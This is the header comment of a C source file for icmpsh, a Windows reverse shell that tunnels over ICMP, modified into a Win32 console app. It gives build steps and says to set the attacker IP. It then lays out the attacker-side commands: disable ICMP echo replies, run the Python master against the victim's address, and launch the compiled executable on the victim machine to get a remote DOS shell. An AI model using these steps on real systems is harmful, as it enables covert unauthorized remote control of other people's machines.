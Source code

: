  icmpsh - icmp windows MASTER-SLAVE shell
 Original Copyright (c) 2010, Nico Leidecker <nico@leidecker.info>

     Modified by F.Zinzloun.Bersani to a Win32 C console app. Folloows configuration in VS 2015\17:
	 - create a C++ Win32 Console App
	 - delete all the headers file, leave only the main cpp file
	 - copy the content of this file inside the main cpp file. Change the extension of the file in .c
	 - configure the attacker IP at line 39
	 - open the project's properties window,expand C/C++, select All options and set the following:
		-Compile as: Compile as C code/TC
		-Precompiled Headers: Not using precompiled headers
		-Runtime library to Multi-threaded/MT (will include the visual c++ runtime in the exe)
    That should be enough. Generate it. Tested on Windows Server 2008 64bit, Windows 10 Home\Pro Edition 64 bit
	
    On the attacker machine, of course a Kali box execute the master after having disabled ICMP replies (set to 0 to restore it)
    #sysctl -w net.ipv4.icmp_echo_ignore_all=1
    
    execute the master: icmpsh-master.py <attacker (master) IP address> <victim (slave) IP address>
    ./icmpsh_master.py 192.168.1.66 192.168.1.17

    Now the master is waiting for the incoming victim connection...
    
    On the windows victim (slave) machine execute the compiled exe,
    check the Linux master box, you should get a DOS shell!  

